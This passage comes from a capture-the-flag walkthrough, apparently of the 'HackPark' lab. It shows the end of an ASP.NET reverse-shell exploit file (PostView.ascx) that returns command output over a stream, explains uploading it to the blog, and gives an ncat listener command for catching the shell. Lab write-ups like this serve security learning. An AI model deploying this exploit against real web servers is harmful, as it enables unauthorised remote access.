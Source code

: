 ```shell
      }
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
    StringBuilder strOutput = new StringBuilder();

        if (!String.IsNullOrEmpty(outLine.Data)) {
          try {
                  strOutput.Append(outLine.Data);
                      streamWriter.WriteLine(strOutput);
                      streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

{: file="~/Downloads/PostView.ascx" }

### Upload the exploit

Note the details in the instructions; we must upload the file as PostView.ascx
and it tells us where to upload the file. Upload the file as instructed:

![exploit upload](hackpark-exploit-upload.webp){: width="700"
height="400" }
_Upload of the exploit_

Once the exploit file is uploaded, we follow the instructions to trigger the
reverse shell once we have set up a listener.

> I have had issues in the past with netcat,
> `nc`, not working correctly when used as a listener on MacOS. I used NMAP's version, `ncat`, which works.
> {: .prompt-info }

Making sure the same port is used as we entered in to the exploit:

```bash
ncat -nvlp 4445
```

{: .nolineno }

### Initial reverse shell

Once we have the listener up and running, navigate to the page in the exploit
instructions and the connection will happen. Once the initial reverse shell is
active, run the `whoami` command to get the answer to question 3 the right way,
as per the screenshot below:
